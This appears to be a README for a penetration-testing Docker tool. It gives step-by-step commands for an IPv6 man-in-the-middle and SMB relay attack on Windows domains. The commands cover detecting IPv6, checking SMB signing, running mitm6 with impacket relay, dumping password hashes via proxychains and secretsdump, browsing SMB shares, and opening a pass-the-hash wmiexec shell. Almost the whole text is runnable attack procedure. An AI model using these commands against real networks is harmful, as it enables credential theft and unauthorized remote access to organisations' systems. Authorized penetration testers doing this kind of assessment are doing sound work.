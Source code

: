 # IPV6

## Discovery

First check if IPv6 is being used on the network:

```bash
screen -S tshark -d -m docker run --network host -v -it "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
check_for_ipv6_traffic network_interface to listen on
```

If packets are flowing then the next step is to check if SMB signing is not required.
To discover if SMB is enabled but not required, run (edit to match folder)

```bash
docker run -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
check_if_smb_is_required target_ip_address_or_list_of_ips
```

## Exploitation

If SMB is not required then:

```bash
screen -S mitm6 -d -m  docker run -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
start_mitm6 target_domain_name local_network_interface
```

The above command runs mitm6 and impacket relay in two screens, you can view the running screens using:

```bash
screen -ls
```

Activate running screens with:

```bash
screen -r relay_ipv6
screen -r mitm6
```

Detach from a screen using

```bash
Ctrl + A (release before next key) + D
```

You can check if SMB sessions have been created successfully by resuming the `relay_ipv6`
screen and running the `socks` command

If SMB sessions have been created, you can perform a number of actions going forward using proxychains:

- Dumping ashes

    ```bash
    sudo proxychains impacket-secretsdump -no-pass DOMAIN/USER@X.X.X.X 
    ```
- Accessing SMB shares

    ```bash
    proxychains smbclient //10.8.0.99 -U DOMAIN/X.X.X.X     
    ```
- Passing hashes for a WMIexec session

```bash
impacket-wmiexec -hashes xxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxx user@x.x.x.x
```
